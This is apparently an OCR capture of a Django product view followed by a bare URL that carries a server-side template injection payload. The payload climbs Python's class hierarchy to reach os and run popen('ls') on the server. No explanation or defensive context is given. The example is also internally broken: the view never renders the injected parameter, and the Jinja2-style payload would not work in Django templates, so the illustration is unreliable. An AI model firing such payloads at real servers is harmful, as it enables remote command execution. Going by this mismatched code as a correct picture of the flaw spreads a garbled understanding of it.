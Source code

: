 Source code:

```
from django.shortcuts import render
from django.views import View

class ProductView(View):
    def get(self, request, product_id):
        product = get_product_by_id(product_id)
        template = """
            <html>
                <body>
                    <h1>{{ product.name }}</h1>
                    <p>{{ product.description }}</p>
                    <p>Price: {{ product.price }}</p>
                </body>
            </html>
        """
        return render(request, 'product_detail.html', {'product': product, 'template': template})
```

```http://localhost:8000/product/1/?template={{request.__class__.__mro__[1].__subclasses__()[414].__init__.__globals__['os'].popen('ls').read()}}```
